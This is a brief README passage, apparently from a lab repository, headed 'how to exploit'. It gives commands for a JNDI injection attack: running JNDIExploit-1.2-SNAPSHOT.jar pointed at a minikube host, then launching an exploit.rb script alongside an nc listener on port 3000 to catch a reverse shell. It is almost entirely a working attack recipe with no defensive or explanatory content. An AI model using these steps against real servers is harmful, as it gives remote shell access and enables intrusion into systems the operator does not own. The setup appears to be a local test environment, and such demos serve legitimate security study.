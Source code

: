 
Once you've done the setup in the readme_original

## how to exploit 
launch this command with the file present in the exploit/ folder
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i host.minikube.internal -p 8080
```

then launch this command 

```
ruby ./script/exploit.rb & nc -lv 3000
```


you should get a shell on the machine
